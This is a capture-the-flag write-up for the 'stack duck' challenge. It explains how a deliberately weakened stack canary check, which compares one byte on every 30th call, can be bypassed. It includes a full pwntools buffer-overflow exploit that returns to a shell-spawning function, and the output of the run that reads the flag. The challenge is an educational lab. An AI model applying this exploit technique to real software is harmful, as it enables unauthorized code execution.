

# stack duck (ath0)
This challenge comes with a meme as a hint:



## Exploration
Lets take a look at the provided source code
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

volatile long DuckCounter;

__attribute__((noinline))
void win() {
    system("/bin/sh");
}

__attribute__((noinline))
void submit_code() {
    char temp_code[512];

    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code, 552, stdin);
}

__attribute__((noinline))
int menu() {
    printf("Twitter Employee Performance Review\n");
    printf("***********************************\n\n");
    printf("1. Submit code for approval\n");
    printf("2. Get fired\n");

    return 0;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    int run = 1;
    while (run) {
        char buf[0x20];
        menu();
        fgets(buf, 0x20, stdin);
        int choice = atoi(buf);
        switch (choice) {
            case 1:
                submit_code();
                break;
            case 2:
                run = 0;
                break;
            default:
                break;
        }
    }
    return 0;
}
```

Seems fairly simple, find a way to call the `win` function. There's a buffer overflow in `submit_code`, meaning that we should be able to override the return address of `submit_code` to return to `win`.

However, modern compilers add protections by default, so before we get ahead of ourselves lets run `checksec` (provided by `pwntools`) on the binary to see whats going on there.
```bash
$ checksec chall
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Importantly it says `Stack:    Canary found`.

## Stack Canaries
The stack canary is a secret value placed on stack after all of the variables, and is checked before the function returns to make sure it is the correct value. There is a new canary every time the program is executed. This way, if some buffer overflow exists, it will overwrite the canary in the process of overwriting the return value which will be detected, give an error message, and quit immediately.
```
*** stack smashing detected ***: terminated
```

Given the meme as a hint and the fact that there is a canary, this challenge is likely going to be about beating the stack canary. Typically, this is done by somehow leaking the value of the canary, but in this challenge it is not possible to do so because there is no user controlled way of printing out any values. We will have to look for something else.

## Weirdness
The name of the challenge is Stack Duck, not Stack Canary, and in the provided source code there is a variable declaration:
```c
volatile long DuckCounter;
```

However nowhere is this value used! Lets have a look in ghidra to examine could be happening here.
```c
void submit_code(void)
{
    long lVar1;
    long in_FS_OFFSET;
    char temp_code [512];

    lVar1 = *(long *)(in_FS_OFFSET + 0x28);
    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code,0x228,stdin);

    DuckCounter = DuckCounter + 1;
    if ((DuckCounter & 0x1f) == 0x1e) {
        if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
    } else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1) {
        LAB_00401209:
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }

    return;
}
```

This is much better, and we can see that `DuckCounter` is being used here. Our goal is to create a buffer overflow which passes the stack check, or in other words, to avoid `__stack_chk_fail()` being called. The block with the `else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1)` looks like a standard canary check, but there is an additional condition which we can satisfy involving the `DuckCounter` which appears to have been artificially added. Let's try to bypass the canary using that.

## Exploit
Lets take the following code segment one piece at a time.
```c
DuckCounter = DuckCounter + 1;
if ((DuckCounter & 0x1f) == 0x1e) {
    if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
}
```

We increment `DuckCounter` every time we call the function, and then if `(DuckCounter & 0x1f) == 0x1e` is true we continue. So calling the function `0x1e=30` times will allow us to continue. Then, it looks like the regular canary check happens, but there is actually a subtle difference, there is a `(char)` cast on `lVar1`, meaning that only one byte will be compared. Now if the canary is random we have a 1/256 chance of guessing the right chance, so on average all we have to do is run the program 256 times to win (before if we simply tried guessing the canary value we would have to guess a 64 bit value which is not feasible). But it is actually far better than this, because for some reason the value that it compares to always turns out to be 0 (found in gdb). So if we put a null byte in our exploit can pass the canary check and return to the `win` function. Lets write the exploit.

```python
from pwn import *

exe = ELF("./chall")
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, '''
                c
            ''')
    else:
        r = remote("pwn.chall.pwnoh.io", 13386)

    return r


def main():
    r = conn()

    # set up for passing the (DuckCounter & 0x1f) == 0x1e check
    for duck_count in range(0x1e - 1):
        r.sendline(b'1')
        r.recvuntil(b'.\n')
        r.sendline(str(duck_count).encode())  # doesn't matter what we send here

    log.info("Sending!")
    r.sendline(b'1')
    r.recvuntil(b'.\n')

    # padding
    payload = b'A'*512 + b'B'*8

    # our canary which must have a null byte at the end, the rest of the values don't matter
    payload += p64(0xaabbccddee00)

    # more padding
    payload += b'C'*8

    # first return address, simple rop to a ret instruction to realign the stack
    payload += p64(0x40101a)

    # final return address, to the win function which calls /bin/sh
    payload += p64(exe.symbols["win"])

    # send the payload
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ python3 solve.py
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.chall.pwnoh.io on port 13386: Done
[*] Sending!
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}

$
[*] Interrupted
[*] Closed connection to pwn.chall.pwnoh.io port 13386
```